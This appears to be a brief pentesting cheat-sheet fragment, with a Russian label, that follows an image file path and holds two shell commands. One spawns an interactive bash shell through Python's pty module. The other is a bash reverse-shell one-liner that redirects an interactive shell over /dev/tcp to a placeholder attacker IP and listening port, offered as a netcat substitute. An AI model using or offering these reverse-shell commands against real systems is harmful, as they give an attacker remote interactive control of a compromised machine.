 ```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
аналог nc:
```
bash -c "bash -i >& /dev/tcp/{your_IP}/{your_listeniing_port} 0>&1"
```
